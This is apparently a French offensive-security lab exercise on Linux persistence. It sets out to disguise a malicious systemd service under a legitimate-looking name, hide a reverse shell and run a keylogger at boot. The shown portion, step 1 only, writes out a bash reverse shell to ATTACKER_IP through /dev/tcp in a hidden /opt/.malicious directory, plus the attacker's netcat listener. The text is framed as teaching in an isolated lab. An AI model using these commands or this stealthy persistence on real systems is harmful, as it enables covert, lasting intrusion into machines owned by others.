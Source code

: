 # **TP Offensif – Persistance via systemd et services Linux**





# **Objectif**

Comprendre comment un attaquant :

* Crée un service systemd personnalisé pour **persister** après redémarrage
* Masque ses activités via des noms légitimes (`systemd-update.service`)
* Déploie un reverse shell **camouflé comme un service système**
* Peut exécuter un keylogger ou un script espion à chaque démarrage

---

## **Contexte du TP**

Vous êtes dans un lab isolé. Vous avez obtenu un accès `root` sur une machine Linux via une faille. Votre objectif est de **maintenir un accès furtif et persistant** même après un redémarrage.

---

## **Étape 1 – Création d’un faux service `systemd` malveillant**

### 1.1 Créez un reverse shell (bash)

```bash
mkdir -p /opt/.malicious
nano /opt/.malicious/reverse.sh
```

Contenu :

```bash
#!/bin/bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

Remplacez `ATTACKER_IP` par l’IP de votre Kali Linux.
Ensuite :

```bash
chmod +x /opt/.malicious/reverse.sh
```

Côté attaquant :

```bash
nc -lvnp 4444
```

---
